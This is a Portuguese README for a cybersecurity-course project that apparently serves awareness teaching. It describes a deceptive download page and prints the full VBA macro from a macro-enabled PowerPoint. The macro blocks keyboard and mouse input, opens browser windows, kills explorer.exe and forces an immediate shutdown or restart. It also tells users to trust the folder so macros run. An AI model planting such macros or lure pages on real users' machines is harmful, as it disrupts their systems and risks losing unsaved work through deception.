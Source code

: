 

[![GitHub Pages](https://img.shields.io/badge/GitHub-Pages-327FC7?style=flat-square&logo=github)](https://d3z33.github.io/fontesenai/)
[![HTML5](https://img.shields.io/badge/HTML5-E34F26?style=flat-square&logo=html5&logoColor=white)](https://developer.mozilla.org/en-US/docs/Web/HTML)
[![CSS3](https://img.shields.io/badge/CSS3-1572B6?style=flat-square&logo=css3&logoColor=white)](https://developer.mozilla.org/en-US/docs/Web/CSS)
[![JavaScript](https://img.shields.io/badge/JavaScript-F7DF1E?style=flat-square&logo=javascript&logoColor=black)](https://developer.mozilla.org/en-US/docs/Web/JavaScript)

## Visão Geral

Este projeto faz parte de um curso voltado para os Princípios de Cibersegurança, cujo objetivo é demonstrar cenários simulados de ataques cibernéticos, além de realizar exercícios práticos utilizando tecnologias como HTML, CSS, JavaScript e VBA Macros no PowerPoint. O projeto aborda questões como segurança digital, ameaças online e conscientização dos participantes sobre os riscos presentes na internet.

## 🚀 Acesse o Projeto

Você pode acessar a página do projeto clicando no botão abaixo:

[![Clique aqui para abrir a página do projeto](https://img.shields.io/badge/Abrir-Projeto-2D8CFF?style=for-the-badge)](https://d3z33.github.io/fontesenai/)


## 🌐 Funcionamento do Site

- **Página Inicial:**

O site foi criado para ser interativo e educacional. Ao acessar a página, o usuário é recebido com um botão principal: “Clique aqui para o Download do Arquivo”.


- **Interação do Usuário:**

Ao clicar no botão principal, o botão desaparece em forma de fumaça e é substituído por vários outros botões dispostos de maneira aleatória.

- **Enganação Intencional:** 

Esses novos botões parecem oferecer a opção de download, mas ao tentar clicar neles, eles se movem rapidamente de forma aleatória para impedir que o usuário os clique. Isso foi feito para simular uma experiência de ataque frustrante ou enganosa, comum em cenários de engenharia social.


- **Acesso ao Arquivo:**

Somente um dos botões está fixo de forma minúscula e fornece o download do arquivo real, que é um arquivo PowerPoint (.pptm) contendo uma macro VBA que realiza simulações.

O botão de download real foi propositalmente disfarçado, colocado no canto inferior da tela e minimizado para dificultar sua localização.

Importante: Para acessar o conteúdo da simulação, o usuário deve baixar o arquivo PowerPoint e autorizar a execução das macros.


## 🛠️ Tecnologias Utilizadas

Este projeto foi desenvolvido com as seguintes tecnologias:

- **HTML5**: A estrutura da página foi criada utilizando HTML5, a última versão da linguagem de marcação padrão para a criação de páginas web.

- **CSS3**: O layout e o estilo visual foram implementados com CSS3, permitindo uma personalização sofisticada e responsiva.
  
- **JavaScript**: A lógica interativa e os efeitos dinâmicos foram programados em JavaScript, proporcionando uma experiência de usuário avançada e imersiva.
  
- **VBA Macros**: Utilizado no PowerPoint para criar uma simulação de ataque.
  

## 📂 Estrutura do Projeto

A estrutura de diretórios do projeto é organizada da seguinte forma:

```bash
fontesenai/
├── index.html         # Página principal do projeto
├── styles.css         # Arquivo de estilos CSS
├── script.js          # Script JavaScript para a interação
├── README.md          # Documentação do projeto
└── assets/            # Arquivos de mídia, imagens e ícones utilizados
    ├── 0.jpeg
    ├── 1.jpeg
    ├── 2.jpeg
    ├── 3.jpeg
    ├── 4.jpeg
    ├── 5.jpeg
    └── Apresentasao-Ciber.pptm  # Arquivo PowerPoint usado na simulação
```
## 📜 Instruções para Execução do PowerPoint

- **Ambiente Controlado**

**Acessar a Página:** [Aqui](https://d3z33.github.io/fontesenai/) para abrir a página do projeto.

O arquivo PowerPoint contém macros VBA que simulam um ataque cibernético. É recomendado que o teste seja realizado em um ambiente controlado.

**Habilitar Macros**:

Após o download, o PowerPoint solicitará que você habilite as macros. É necessário adicionar a pasta onde o arquivo foi salvo como local confiável, caso contrário, as macros não serão executadas.
Execução da Macro:

A partir do slide 3 do arquivo PowerPoint, qualquer clique no slide aciona a macro. Isso simula um ataque, causando uma série de ações no sistema, como o movimento descontrolado do mouse, desativação do teclado, abertura de janelas e, por fim, a reinicialização ou desligamento do computador.

## 🎯 Objetivo do Projeto**

O objetivo deste projeto é educar e conscientizar os participantes sobre os riscos de segurança na internet. A simulação de um ataque mostra como um cenário realista pode ser perigoso e ilustra a importância da cibersegurança.

## 💻 Código da Macro (VBA) no PowerPoint

Abaixo está o código da macro VBA que simula o ataque:

```bash
' Importa as funções da biblioteca "user32" para mover o cursor do mouse
Declare PtrSafe Function SetCursorPos Lib "user32" (ByVal x As Long, ByVal y As Long) As Long

' Importa a função "Sleep" da biblioteca "kernel32" para adicionar um atraso em milissegundos
Declare PtrSafe Sub Sleep Lib "kernel32" (ByVal dwMilliseconds As Long)

' Importa a função "BlockInput" da biblioteca "user32" para bloquear as entradas do teclado e mouse
Declare PtrSafe Function BlockInput Lib "user32" (ByVal fBlockIt As Long) As Long

' Importa a função "GetSystemMetrics" da biblioteca "user32" para obter as dimensões da tela
Declare PtrSafe Function GetSystemMetrics Lib "user32" (ByVal nIndex As Long) As Long

' Importa a função "ShellExecute" da biblioteca "shell32.dll" para executar arquivos ou abrir URLs
Declare PtrSafe Function ShellExecute Lib "shell32.dll" Alias "ShellExecuteA" ( _
    ByVal hwnd As Long, _
    ByVal lpOperation As String, _
    ByVal lpFile As String, _
    ByVal lpParameters As String, _
    ByVal lpDirectory As String, _
    ByVal nShowCmd As Long) As Long

' Sub rotina principal que simula o ataque
Sub ExecutarSimulacao()

    ' Bloqueia o teclado e o mouse para impedir interações
    BlockInput True

    ' Faz o cursor do mouse se mover de forma descontrolada em um padrão circular
    Dim i As Long
    For i = 1 To 1000

        ' Calcula a posição do mouse baseada no cosseno e seno para criar o movimento circular
        SetCursorPos (GetSystemMetrics(0) / 2) + 50 * Cos(i), (GetSystemMetrics(1) / 2) + 50 * Sin(i)

        ' Pausa de 1 milissegundo entre cada movimento do mouse para criar fluidez
        Sleep 1
    Next i

    ' URLs das imagens que serão abertas em novas janelas do Chrome
    Dim urls As Variant
    Dim j As Integer
    urls = Array("https://raw.githubusercontent.com/D3Z33/fontesenai/main/assets/5.jpeg", _
                 "https://raw.githubusercontent.com/D3Z33/fontesenai/main/assets/4.jpeg", _
                 "https://raw.githubusercontent.com/D3Z33/fontesenai/main/assets/3.jpeg", _
                 "https://raw.githubusercontent.com/D3Z33/fontesenai/main/assets/2.jpeg", _
                 "https://raw.githubusercontent.com/D3Z33/fontesenai/main/assets/1.jpeg", _
                 "https://raw.githubusercontent.com/D3Z33/fontesenai/main/assets/0.jpeg")

    ' Abre cada URL em uma nova janela do Chrome, com um pequeno atraso entre cada uma
    For j = 0 To UBound(urls)

        ' Abre o Chrome em uma nova janela maximizada com a URL correspondente
        ShellExecute 0, "open", "chrome.exe", "--start-maximized --new-window " & urls(j), vbNullString, vbNormalFocus

        ' Pausa de 1200 milissegundos (1,2 segundos) entre a abertura de cada aba
        Sleep 1200
    Next j

    ' Pausa de 1,2 segundos antes de fechar o explorador de arquivos
    Sleep 1200

    ' Fecha o explorador de arquivos do Windows para simular um impacto maior no sistema
    Shell "taskkill /f /im explorer.exe", vbHide

    ' Escolhe aleatoriamente entre desligar ou reiniciar o sistema
    Randomize

    If Rnd < 0.5 Then
        ' Desliga o sistema imediatamente
        Shell "shutdown -s -f -t 0", vbHide  ' Desligar
    Else
        ' Reinicia o sistema imediatamente
        Shell "shutdown -r -f -t 0", vbHide  ' Reiniciar
    End If
End Sub
```

## 🛠️ Instruções Gerais

- **Execução Manual Não Recomendada:**
   A simulação é programada para ser automática. Caso as macros não sejam executadas corretamente, a simulação não terá efeito.

- **Ambiente Seguro:**
Para evitar problemas, execute este teste em um ambiente seguro ou em máquinas virtuais.

- **Desempenho do Sistema:**
Durante a execução da macro, o sistema pode sofrer impacto no desempenho, como fechamento de aplicações e reinicialização do sistema.


### Explicações:

- **Ícones de Tecnologias**: Usei ícones para HTML5, CSS3, e JavaScript, que são as tecnologias principais usadas neste projeto.

- **Botão de Acesso**: Um botão grande e claro que leva diretamente à página do projeto.

- **Estrutura do Projeto**: Descrição da estrutura de diretórios para facilitar a compreensão do projeto.

- **Objetivo e Instruções**: Uma seção clara sobre o propósito do projeto e como utilizá-lo.

## ⌨️ com ❤️ por [D3Z33] 🧑‍💻 🎓
